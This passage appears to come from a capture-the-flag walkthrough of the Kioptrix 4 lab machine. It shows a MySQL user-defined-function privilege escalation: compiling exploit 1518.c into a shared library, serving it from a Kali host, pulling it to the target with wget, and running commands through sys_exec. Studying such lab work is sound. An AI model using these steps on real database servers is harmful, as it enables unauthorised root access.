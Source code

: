 ```bash
root@kali:~/Desktop/k4# gcc -g -c 1518.c
root@kali:~/Desktop/k4# gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.o -lc
root@kali:~/Desktop/k4# ls
1518.c  1518.o  1518.so
root@kali:~/Desktop/k4# ip addr show | grep inet
    inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host 
    inet 10.0.2.15/24 brd 10.0.2.255 scope global dynamic noprefixroute eth0
    inet6 fe80::a00:27ff:fe81:b1df/64 scope link noprefixroute
root@kali:~/Desktop/k4# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Back over to our shell on the target. We'll use wget to pull 1518.so from Kali over to John's home directory.

```bash
john@Kioptrix4:/var/www$ cd
john@Kioptrix4:~$ ls
john@Kioptrix4:~$ wget http://10.0.2.15:8000/1518.so
--17:40:46--  http://10.0.2.15:8000/1518.so
           => `1518.so'
Connecting to 10.0.2.15:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 19,040 (19K) [application/octet-stream]

100%[==========================================>] 19,040        --.--K/s             

17:40:46 (148.23 MB/s) - `1518.so' saved [19040/19040]
```

I'm not going to go through the entire command sequence, for a couple reasons.

## But I thought everything just works?

To start, it's already in the exploit file's instructions. But, in addition, I was able to get it to work on my desktop; however, it wouldn't on my laptop for some reason.

I got an error about an incorrect ELF class from the MySQL prompt, but googling didn't turn up much.

On a brighter note, checking the MySQL functions reveals all that work has already been done for us.

```bash
mysql> create function do_system returns integer soname 'raptor.so';
ERROR 1126 (HY000): Can't open shared library 'raptor.so' (errno: 22 raptor.so: wrong ELF class: ELFCLASS64)
mysql> select * from mysql.func;
+-----------------------+-----+---------------------+----------+
| name                  | ret | dl                  | type     |
+-----------------------+-----+---------------------+----------+
| lib_mysqludf_sys_info |   0 | lib_mysqludf_sys.so | function | 
| sys_exec              |   0 | lib_mysqludf_sys.so | function | 
+-----------------------+-----+---------------------+----------+
2 rows in set (0.00 sec)

mysql> select sys_exec('id > /tmp/out; chown john.john /tmp/out');
+-----------------------------------------------------+
| sys_exec('id > /tmp/out; chown john.john /tmp/out') |
+-----------------------------------------------------+
| NULL                                                | 
+-----------------------------------------------------+
1 row in set (0.00 sec)

mysql> \! sh
```